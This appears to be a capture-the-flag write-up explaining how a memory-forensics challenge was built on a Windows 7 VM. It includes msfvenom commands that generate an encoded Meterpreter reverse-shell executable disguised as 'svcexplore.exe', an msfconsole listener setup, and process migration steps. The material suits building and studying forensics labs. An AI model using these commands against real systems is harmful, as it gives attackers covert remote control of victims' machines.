 <p>The company workstation was a Windows 7 VMware VM (Windows product code is not needed for short usage). The Windows username is <code>Walter</code> and the password is <code>rickymartin</code>. The password is made easy to crack purely for fun, cracking it does not help in solving the challenge. There are two more easter eggs: a site with jokes in the IE browsing history and a rickroll YouTube URL in the clipboard.</p>
<p>The <code>Meterpreter</code> virus was created using <code>msfvenom</code>:
  <pre>msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=192.168.1.62 lport=443 -e x86/shikata_ga_nai -b '\x00' -i 3 -f exe -o ~/Downloads/svcexplore.exe</pre>
Then, a callback listener was set up on the remote server using <code>msfconsole</code>:
  <pre>set LHOST 192.168.1.120<br></br>set LPORT 443<br></br>set PAYLOAD windows/meterpreter/reverse_tcp<br></br>use multi/handler<br></br>exploit</pre>
The exploit was copied to the workstation desktop and executed from there (with no AV installed, to makes things easier). Back on the remote server, the incoming connection is accepted and we migrate to a different process:
  <pre>ps<br></br>migrate 328<br></br>pkill svcexplore.exe</pre>
</p>
<p>The memory dump was created by suspending the VM and then running the following command in the VM directory:
  <pre>vmss2core -W challenge-3c77c33a.vmss challenge-3c77c33a.vmem</pre>
File names may differ, and <code>vmss2core</code> may still need to be downloaded from the <a href="https://flings.vmware.com/vmss2core">official website</a>.
</p>